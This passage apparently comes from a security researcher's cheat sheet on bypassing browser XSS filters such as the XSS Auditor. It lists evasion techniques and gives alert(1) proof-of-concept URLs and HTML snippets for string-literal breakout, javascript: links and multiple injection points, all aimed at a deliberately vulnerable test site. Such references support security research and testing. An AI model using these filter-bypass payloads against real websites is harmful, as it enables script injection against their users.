         - If you have string operations
            - When deleted
            - When replaced
        - Tags that can send requests to the outside
        - Using strings disguised as XML namespaces (Edge only)
        - Using HZ-GB-2312 Escape Sequences
        - Using encoding behavior when navigating
        - Using the Adobe Acrobat Reader plug-in (IE only)
        - Using Content Sniffing for XML (IE only)
        - Use UTF-7 BOM (IE only)
        - Using \<?PXML\> (IE only)
        - Use of referrer
            - Use of link functions within the same domain (including subdomains)
            - Bypass where arbitrary URL can be specified
            - If the state before submission to the vulnerable form can be maintained on the page
            - Using option tags
            - Using an empty iframe
        - Use of character-referenced strings in style (style description only)
    - past bypass

# XSS Auditor

## Items not subject to blocking

In contexts where protection is not provided in the first place, scripts can be executed without special manipulation.

### XSS happening in string literals

https://vulnerabledoma.in/bypass/str_literal?q=%22%3Balert(1)//

```html
<script>var q="";alert(1)//"</script>
```

### XSS established by URL alone (such as when the input value is directly entered in the href part of the a tag)

https://vulnerabledoma.in/bypass/link?q=javascript:alert(1)

```html
<a href="javascript:alert(1)">Link</a>
```

### If you have 2 or more injection points

(It seems to be able to block a considerable number of cases that occur with two or more, but since the case reported in the past ( [#96616](https://bugs.chromium.org/p/chromium/issues/detail?id%3D96616) [#403636](https://bugs.chromium.org/p/chromium/issues/detail?id%3D403636) ) was WontFixed, it is classified as the one that is not targeted for blocking.)

https://vulnerabledoma.in/bypass/text?type=2&q=%60-alert(1)%3C/script%3E%3Cscript%3E%60
